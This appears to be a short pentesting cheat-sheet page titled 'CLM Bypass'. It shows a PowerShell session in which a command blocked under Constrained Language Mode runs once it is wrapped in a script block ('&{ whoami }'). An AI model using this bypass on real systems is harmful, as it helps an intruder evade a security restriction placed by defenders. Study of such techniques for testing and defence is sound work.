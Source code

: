 ```yaml
---
description: PowerShell Constrained Language Mode
---
```


# CLM Bypass

In-place functions:

```
PS > whoami
The term 'whoami.exe' is not recognized as the name of cmdlet...
PS > &{ whoami }
megacorp\snovvcrash
```
